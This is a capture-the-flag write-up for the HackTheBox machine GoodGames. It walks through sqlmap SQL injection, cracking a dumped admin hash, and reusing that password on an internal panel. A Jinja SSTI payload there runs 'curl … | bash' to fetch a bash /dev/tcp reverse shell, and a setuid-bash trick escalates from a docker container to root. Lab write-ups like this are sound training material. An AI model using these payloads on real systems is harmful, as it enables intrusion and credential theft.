 ```yaml
---
title: HTB [GoodGames]
date: 2023-01-25 01:28:05 +0200
categories: [linux,sqli,password-reuse,ssti,docker-escape]
tags: [HACKTHEBOX MACHINES]
excerpt: GoodGames is an easy hackthebox machine that created by TheCyberGeek, which involves sqli in a login page to get a easily crackable hash, After logging in as admin we can see the Flask Volt service running on a different host. They've used same password for both hosts, so we can login there as admin and do a ssti to get initial shell, but it was a docker container and they've mounted the /home/<user> directory to that, so we can do a interesting method to privesc frome there
---
```



![](https://i.imgur.com/EfqCSt7.png)

## Recon

### port scan

```js
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.51
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
|_http-favicon: Unknown favicon MD5: 61352127DC66484D3736CACCF50E7BEB
|_http-title: GoodGames | Community and Store
Service Info: Host: goodgames.htb
```

- Only a single port opened o.O
- Ok let's enum the website and scan for UDP ports in the background
- Add `goodgames.htb` to your `/etc/hosts` file

### web enum

- It's a flask application

![](https://i.imgur.com/TjldMp1.png)

<br>
- There's a signup page, let's create a new account and login

![](https://i.imgur.com/8WJJgWc.png)

- My name and email are reflecting here, so let's try for a SSTI

![](https://i.imgur.com/I21HlnV.png)

- There's no SSTI in username & email field

#### Forget password

![](https://i.imgur.com/O6r12TZ.png)

- It works normally

### SQLi

- SSTI not worked here, so let's try for SQL Injection

```js
sqlmap -u "http://goodgames.htb/login" --method=POST --data "email=a&password=a"
```

![](https://i.imgur.com/jei3zLo.png)

- Cool let's dump the db

```js
available databases [2]:
[*] information_schema
[*] main
```

- Let's use the main database

```js
[3 tables]
+---------------+
| user          |
| blog          |
| blog_comments |
+---------------+
```

- user seems interesting

```js
[4 columns]
+----------+--------------+
| Column   | Type         |
+----------+--------------+
| email    | varchar(255) |
| id       | int          |
| name     | varchar(255) |
| password | varchar(255) |
+----------+--------------+
```

- Dump all these things

```js
+----+---------+---------------------+----------------------------------+
| id | name    | email               | password                         |
+----+---------+---------------------+----------------------------------+
| 1  | admin   | admin@goodgames.htb | 2b22337f218b2d82dfc3b6f77e7cb8ec |
| 2  | test    | test@test.com       | 098f6bcd4621d373cade4e832627b4f6 |
| 3  | {{8*8}} | {{7*7}}@gmail.com   | f2750fc6d623392c1c8ad1d9d18f7ea5 |
| 4  | {{8*8}} | one@gmail.com       | f2750fc6d623392c1c8ad1d9d18f7ea5 |
| 5  | {{8*8}} | two@gmail.com       | 098f6bcd4621d373cade4e832627b4f6 |
| 6  | {{8*8}} | {{8*8}}@gmail.com   | 098f6bcd4621d373cade4e832627b4f6 |
+----+---------+---------------------+----------------------------------+
```

- only the first one is in the box, other 5 accounts are mine, used to check ssti
- let's crack the hash `2b22337f218b2d82dfc3b6f77e7cb8ec`

![](https://i.imgur.com/7kaDX72.png)

- login with these creds `admingoodgames.htb:superadministrator`

![](https://i.imgur.com/OMtOOnW.png)

- There's a settings button in the profile page, it's not available for normal users
- And clicking that redirects us to `http://internal-administration.goodgames.htb/`
- Let's add this to our `/etc/hosts` file

## Shell

#### Internal-Administration

![](https://i.imgur.com/wpGG3VN.png)

- Let's use the password that we got from the sqli, `admin:superadministrator` 

![](https://i.imgur.com/iQqpODo.png)

- Successfully logged in

![](https://i.imgur.com/lqMECXH.png)

- In settings pannel we can able to do a SSTI

```python
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("id").read() }}
```

![](https://i.imgur.com/ndI9WbM.png)

- Now let's try to get a rev shell
- The output says `uid = 0 (root)` so most likely it's a docker container
- Start a python server and serve a file named shell.sh

```bash
bash -c 'exec bash -i &>/dev/tcp/10.10.14.3/1337 <&1' 
```

```python
{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("curl 10.10.16.9/shell.sh | bash").read() }}
```

![](https://i.imgur.com/Ekeegqz.png)

- As I said earlier, we got shell as a docker container
- There's a user named `augustus`, you can grab the user.txt file from his home folder

## Privesc

![](https://i.imgur.com/rHNySlg.png)

- `.2` is the docker IP, and `.1` is always the host and it's the machine IP
- I'm going to upload a static nmap binary to scan all the internal ports of that IP
- Here is the link to download that [binary](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/nmap)

![](https://i.imgur.com/vSrnhtf.png)

- Looks like firewall blocking us to access ssh, but we can access it from the docker

![](https://i.imgur.com/cyq4WmE.png)

- It's a guess that both machines have the same user called `augustus`, using the same password allows us to ssh into the host machine
- Enumerating the machine gives us nothing
- I've checked for all services, nothing seems interesting
- But it's wiered that we got the users home directory in the docker container
- Seems the file system is mounted with it
- Logout us augustus and go back to the docker container
- Create a `id_rsa` file using `ssh-keygen` command
- But that method failed, coz the root folder is for docker it's not mounted (See #beyond root part for more understanding)
- So let's copy the bash binary to our `agustus` home folder and give `u+s` (setuid) permissions for that

```
cp /bin/bash .
```
- Do this us `augustus`
- Then go back to the docker container

```
chown root:root /home/augustus/bash
chmod u+s /home/augustus/bash
```
- Do this as root user in docker container

![](https://i.imgur.com/3WgCFNL.png)

- Now `./bash -p` for the root
- Really It's a good game as the name of the machine

### Beyond root

- Let's go back to the docker container and chek for the mounted folders, run the command `mount`

![](https://i.imgur.com/4kXzzVb.png)

- Looks like the home folder of the `augustus` is mounted to the docker container 
- That's why we can able to change the permissions of the bash binary that has been copied to `augustus`' home folder
- Hope you've liked this writeup, cya soon :)
